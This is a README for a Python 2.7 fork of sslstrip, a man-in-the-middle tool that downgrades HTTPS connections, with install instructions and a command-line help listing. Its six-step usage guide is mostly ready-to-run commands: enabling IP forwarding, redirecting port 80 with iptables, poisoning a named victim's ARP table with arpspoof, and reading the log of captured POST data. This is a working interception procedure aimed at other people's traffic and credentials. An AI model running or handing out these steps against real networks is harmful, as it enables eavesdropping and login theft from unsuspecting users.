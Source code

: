 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
$ curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
$ sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
$ pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
$ git clone https://github.com/juanelas/sslstrip.git
$ cd sslstrip
$ sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run `sslstrip` from the source base by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

Just run `sslstrip -h` as a non-root user to get the  command-line options.

```text
sslstrip 0.9.1 by Moxie Marlinspike (patched by Juan Hernández Serrano)
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional).
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The six steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   ```console
   $ sudo echo "1" > /proc/sys/net/ipv4/ip_forward
   ```

   > If you want to make this change persist after reboot, in Debian-like distros you could better uncomment `net.ipv4.ip_forward=1` in `/etc/sysctl.conf` and reload it with:
   >```console
   >$ sudo sysctl -p
   >```

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>` (if the `-l` option is ommitted, `sslstrip` will listen on port `10000`)

   ```console
   $ sslstrip -l <yourListenPort>
   ```

3) Open a new terminal and setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   ```console
   $ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>
   ```

5) Use `arpspoof` to poison the victim's ARP table so that it sends all traffic to the Internet to your machine instead of its default gateway:

   ```console
   $ sudo arpspoof -t <victimIpAddress> <routerIpAddress>
   ```

   > `arpspoof` is part of the `dsniff` suite. In Debian-like distros, if not already installed, you can install it with:
   >```console
   >$ sudo apt update && sudo apt install dsniff
   >```

6) Open a network sniffer (e.g. wireshark, tcpdump), or directly inspect the sslstrip log file (`sslstrip.log` by default), e.g. by running in other terminal
   ```console
   $ tail -f sslstrip.log
   ```
